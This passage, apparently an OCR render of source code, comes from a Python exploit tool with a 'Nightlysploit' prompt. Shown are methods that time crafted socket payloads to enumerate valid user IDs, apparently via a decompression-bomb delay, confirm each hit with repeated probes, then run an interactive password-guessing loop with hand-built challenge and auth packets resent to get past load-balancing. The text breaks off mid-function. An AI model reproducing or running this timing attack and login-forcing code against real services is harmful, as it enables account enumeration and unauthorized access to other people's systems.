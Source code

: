 ```python
    # When a response is higher than the trigger, this may be caused by a decompression.
    self.trigger = mean(timers)+self.bombtimer

  def bruteforce(self,max_uids=10000):
    print("[~] Sending TOKEN probes...")
    start = default_timer()
    # We try to determine which usernames are valid.
    for userid in range(1,max_uids+1):
      current = (float(userid)/max_uids)*100
      timer = self.send_exploit(userid)
      print('[~] Uid: %d took: %f (%d%% completed)' % (userid,timer,current))
      if timer >= self.trigger:
        stop = default_timer()
        print("[+] Possible valid UID: %d found in %d seconds." % (userid,(stop-start)))
        # We check if the userid is a false positive.
        self.confirm(userid)
    print("[+] Timing attack done.")

  def send_exploit(self, user_id):
    # We send a payload, and get the time it needs to answer.
    sock = self.create_socket()
    self.send_payload(sock,user_id)
    start = default_timer()
    data = sock.recv(1024)
    stop = default_timer()
    sock.close()
    return (stop-start)

  def confirm(self,uid):
    # This function is used to test if a userid is valid.
    success = 0
    for attempt in range(0,20):
      took = self.send_exploit(uid)
      print("[~] Test n°%d: %f" % (attempt,took))
      if (took >= self.trigger):
        print("[+] BANGARANG!")
        success += 1
      else:
        print("[-] Nooooooo!")
    success_rate = float(success)/20*100
    print("[~] Test results: %d seems to be %f%% valid." % (uid,success_rate))
    if success_rate >= 50:
      print("[+] User ID: %d doesn't seem to be a false positive." % uid)
      while True:
        password = raw_input("Enter password (cancel with 'quit')\nNightlysploit $> ")
        if password == "quit": break
        self.establish_connection(uid,password)

  def establish_connection(self,uid,password):
    # This function is used to test if a username is valid.
    sock = self.create_socket()
    print("[~] Sending get_challenge")
    sock.sendall("%s\x02\x01\x02\x01%s\x02\x01\x02\x01%s\x02\x01\x02\x01\x45\x4f\x53" % (1, uid, password))
    challenge = sock.recv(1024)
    sock.close()
    print("[~] Got challenge... Sending auth.")
    # We send the auth 5 times because of load-balancing.
    for x in range(0,5):
      sock = self.create_socket()
      sock.sendall("%s\x02\x01\x02\x01%s\x02\x01\x02\x01%s\x02\x01\x02\x01%s\x02\x01\x02\x01\x45\x4f\x53" % (2, uid, password, challenge))
      response = sock.recv(1024)
```